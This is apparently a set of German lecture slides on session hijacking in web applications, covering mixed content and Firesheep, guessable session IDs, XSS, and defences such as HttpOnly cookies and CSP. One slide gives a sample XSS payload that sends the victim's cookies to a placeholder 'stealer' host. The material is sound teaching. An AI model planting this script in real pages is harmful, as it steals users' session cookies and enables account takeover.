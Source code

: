 ## Warum ist ein automatic redirect zu HTTPS nicht ausreichend?

## Problem: Mixed-Content

* Cookie Drive-By, um 2010/2011 herum
* nur Login wird mit HTTPS geschützt
* Rest der Seite mittels HTTP

## Tool: Firesheep

![Picture](0x05_firesheep.png){.stretch}

## Mixed-Content: Current Situation

* Mittlerweile: active mixed-content wird by default geblockt
* Chrome will Download von "gefährlichen" Inhalten mittels HTTP unterbinden

## Problem: Session-ID vorher-bestimmbar

* Angreifer darf Session-ID nicht erraten können
* Schlechte Ideen:
  * aufsteigende Zahlen
  * MD5 auf die Systemzeit
* Immer einen guten Zufallszahlengenerator verwenden
* Entropie-Check der Session-Id

## Problem: XSS

* Annahme: die Webapplikation hat eine XSS-Lücke

![Picture](0x05_session_hijack_xss.png){.stretch}
  
## Beispiel XSS Extraction

```html
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
```

## Lösung für XSS-Lücke

* keine XSS Lücken implementieren
* httpOnly-Flag bei Session Cookies setzen
* CSP verwenden

```
Set-Cookie: CookieName=Wert; path=/; HttpOnly
```
